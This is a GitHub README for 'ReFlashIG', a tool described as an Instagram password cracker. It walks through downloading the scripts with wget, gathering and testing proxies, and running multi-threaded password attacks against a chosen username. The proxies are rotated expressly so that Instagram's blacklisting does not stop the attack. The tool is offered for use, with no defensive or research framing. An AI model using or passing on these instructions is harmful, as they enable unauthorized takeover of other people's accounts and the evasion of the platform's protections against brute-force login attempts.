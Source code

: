 # ReFlashIG
Instagram Password Cracker

### Features
* Imports and uses proxies(keeps you off of Instagram's blacklist)
* Imports passwords
* Sorts and cleans proxies and passwords
* Provides after-action reports
* Notifies on "Suspicious Login Attempt Flags"
* Apply custom timeout values
* Multi-Threaded cracking
* Run with switches or open menu

### Requirements(for use on the Linux operating system)
* Python 2.7
* Basic knowledge of the Linux command line
* Connection to the internet

### Setup

Download: `wget "https://raw.githubusercontent.com/the-red-team/ReFlashIG/master/ReFlashIG.py" -O ReFlashIG.py`  

Copy your password list into the same directory as `ReFlashIG.py`  
If you already have your own list of proxies, make sure that is also in the same directory
##### Optional(if you don't already have your own proxies)
Download: `wget "https://raw.githubusercontent.com/the-red-team/ReFlashIG/master/get_proxies.py" -O get_proxies.py`  
Download: `wget "https://raw.githubusercontent.com/the-red-team/ReFlashIG/master/test_proxies.py" -O test_proxies.py`

### Usage

##### Setting up a proxy list
**1.** Run: `python get_proxies.py output.txt 10`  
 * This will save a list of 200 proxies to `output.txt`  
 ![alt text](https://raw.githubusercontent.com/the-red-team/ReFlashIG/master/screen_get.JPG)

**2.** Run: `python test_proxies.py -x output.txt -o proxies.txt -t 5`
 * This will take the list of proxies from `output.txt` and save the proxies that beat a timeout of 5 seconds to `proxies.txt`
 * Check your list of proxies. If you want more, repeat steps **1** and **2**
 ![alt text](https://raw.githubusercontent.com/the-red-team/ReFlashIG/master/screen_test_1.JPG)  
 ![alt text](https://raw.githubusercontent.com/the-red-team/ReFlashIG/master/screen_test_2.JPG)
 
 
##### Running ReFlashIG.py using swtich options
```

╔════════ ReFlashIG ════════╗
║ ╦═╗┌─┐╔═╗┬  ┌─┐┌─┐┬ ┬╦╔═╗ ║
║ ╠╦╝├┤ ╠╣ │  ├─┤└─┐├─┤║║ ╦ ║
║ ╩╚═└─┘╚  ┴─┘┴ ┴└─┘┴ ┴╩╚═╝ ║
╚═══════════════════════════╝

 Developed By: @the.red.team2

Usage: ReFlashIG.py [-i] [-m] [-v] [-c <thread count>] -u <username> -p <password file> -x <proxy file> -t <timeout>

Options:
  -h, --help        show this help message and exit
  -u USERNAME       Instagram username to target
  -p PASSWORD_FILE  File containing list of passwords
  -x PROXY          File containing list of proxies
  -t TIMEOUT        Instagram connection timeout
  -c THREAD_COUNT   Thread count
  -v                Verbose output
  -m                Open interactive menu
  -i                Information page
```
  
Example: `python ReFlash.py -u the.red.team2 -p passwords.txt -x proxies.txt -t 5 -v`  
![alt text](https://raw.githubusercontent.com/the-red-team/ReFlashIG/master/screen_run_1.JPG)  
![alt text](https://raw.githubusercontent.com/the-red-team/ReFlashIG/master/screen_run_2.JPG)


##### Running ReFlashIG.py using the walk-through method

Run: `python ReFlash.py -m`
 * This will walk you through a step-by-step process to run a password cracking session.


